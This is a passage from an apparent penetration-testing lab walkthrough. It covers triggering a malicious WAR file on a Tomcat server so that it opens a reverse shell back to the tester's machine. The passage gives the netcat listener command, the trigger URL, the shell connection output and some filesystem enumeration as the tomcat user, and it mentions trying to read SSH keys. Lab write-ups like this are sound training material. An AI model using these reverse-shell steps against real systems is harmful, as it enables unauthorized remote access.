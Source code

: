 To execute the payload and run the actual war file, we will need to visit the page http://10.0.0.27:8180/runme/. However, this will try and connect to our command-and-control server on port 4444, and we need to be listening for the incoming connection.

We'll use netcat to receive the incoming shell once the WAR file is executed.
Netcat Listener

Now we set netcat listening on port 4444, the port we hard-coded into our payload:
```
nc -v -l -p 4444
```
Now, netcat will listen for the incoming connection, so you're ready to execute your payload.

Once the runme.war module is enabled through the Tomcat server, visit the applet in your browser:
```
http://10.0.0.27:8180/runme/
```
You'll see the incoming TCP connection in netcat.
```
root@morpheus:~# nc -v -l -p 4444
listening on [any] 4444 ...

10.0.0.27: inverse host lookup failed: Unknown host
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.27] 35148
```
### Houston, We Have a Shell

Congrats - we've got ourselves a shell!

The shell is nothing fancy, but it lets us do some things on the filesystem.

We are the tomcat 5.5 user:
```
id
uid=110(tomcat55) gid=65534(nogroup) groups=65534(nogroup)
```
Here I list the contents of the root directory:
```
cd /
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
```
Note that you are not root so you cannot modify files that you don't own. Same goes for trying to access SSH keys - if they're read-only for that user, you won't be able to see them.
```
ls -la
```